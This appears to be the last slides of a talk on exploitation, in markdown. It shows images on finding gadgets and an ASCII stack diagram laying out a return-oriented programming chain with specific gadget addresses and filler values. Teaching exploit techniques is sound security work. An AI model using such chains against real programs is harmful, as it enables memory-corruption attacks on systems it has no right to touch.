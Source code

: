 
| Finding gadgets | Payload instructions |
|:---:|:---:|
|![](graphics/offset_1.jpg)|![](graphics/offset_2.jpg)|
 
```html
             STACK
+=============================+
|         <0x0806ff61>        | address of G1 <pop ecx; pop ebx; ret;> 
+=============================+
|         <0x00000000>        | value required in %ecx
+=============================+
|         <0x42424242>        | dummy value for <pop ebx;>
+=============================+
|         <0x08069600>        | address of G2 <add eax, ecx; ret;>
+=============================+
|         <0x0807bb6b>        | address of G3 <mov eax, dword ptr [eax]...> 
+=============================+
              ...
```

---

# Thank you for your attention. 
# Any questions ?
